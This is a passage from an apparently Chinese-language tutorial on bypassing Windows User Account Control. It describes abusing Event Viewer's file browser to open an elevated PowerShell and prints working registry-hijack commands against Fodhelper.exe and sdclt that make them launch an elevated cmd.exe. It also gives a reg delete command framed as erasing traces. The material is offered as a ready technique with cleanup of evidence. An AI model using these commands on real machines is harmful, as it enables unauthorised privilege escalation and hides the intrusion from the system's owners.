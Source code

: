 ### 管理工具

之前说过，管理工具有很多白名单程序，如果一个白名单程序有浏览文件目录的功能，就可以以此来创建高权限cmd窗口。这里拿事件查看器举例

操作-》打开保存的目录-》文件目录路径处输入powershell-》弹出高权限powershell 以此内推，还有很多相似的管理工具可以这样利用

## 4\. 注册表劫持

### Fodhelper.exe

Fodhelper.exe win10才有，所以只有win10能通过这个办法bypassuac，他是一个autoelevate元素程序

我们使用proceemonitor查看事件查看器启动的时候执行了什么。我们通过排查发现了此处

![]()

发现程序试图打开HKCU\Software\Classes\ms-
settings\shell\open\command，但是这个项没有找到，因为这个项并不存在，于是它查询 HKCR\ms-
settings\Shell\Open,查询成功便打开其下的Command键进行查询。  
我们可以劫持注册表，往HKCU\Software\Classes\ms-
settings\shell\open\command写入恶意指令从而达到bypassuac的目的。

    
    
    reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /d C:\Windows\System32\cmd.exe /f   
    reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_DWORD /d 00000000 /f  
      
  
---  
  
我们写入如下命令，就能让Fodhelper.exe 执行时自动高权限执行cmd窗口了

然后消除痕迹

    
    
    reg delete "HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command"  
      
  
---  
  
### sdclt

Win10后这个程序才有自动提升权限的能力

    
    
    reg add "HKCU\Software\Classes\Folder\shell\open\command" /d C:\Windows\System32\cmd.exe /f   
    reg add "HKCU\Software\Classes\Folder\shell\open\command" /v "DelegateExecute" /f  
      
      
  
---  
  
### ![](https://gitee.com/fuli009/images/raw/master/public/20210815101554.png)
